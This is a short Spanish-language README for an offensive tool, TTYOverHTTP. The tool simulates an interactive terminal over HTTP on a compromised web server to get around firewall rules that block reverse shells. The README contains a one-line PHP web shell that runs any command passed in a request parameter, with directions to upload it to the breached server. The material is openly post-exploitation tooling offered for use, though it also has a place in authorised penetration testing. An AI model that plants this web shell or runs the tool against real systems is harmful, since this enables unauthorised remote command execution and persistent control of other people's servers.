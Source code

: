 # TTYOverHTTP

En ocasiones cuando comprometemos un servidor web, hay reglas configuradas (**Ej: iptables**) que nos impiden obtener una Reverse Shell vía Netcat, Python, u otra utilidad.

Con esta herramienta, evitamos tener que hacer uso de una reverse shell para
obtener una TTY posteriormente completamente interactiva. A través de archivos
'**mkfifo**', jugamos para simular una TTY interactiva sobre HTTP, logrando
manejarnos sobre el sistema cómodamente sin ningún tipo de problema.

Lo único que necesitamos, es subir al servidor comprometido una estructura PHP como la siguiente para ejecutar comandos:

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```

Una vez subido, simplemente ejecutamos el script (Es necesario cambiar la ruta en el script donde se sitúa nuestro script PHP alojado en el servidor vulnerado).

Tras su ejecución, se muestra un ejemplo de su utilidad:

<div style="text-align:center"><img src="https://funkyimg.com/i/2VKJz.png" /></div>

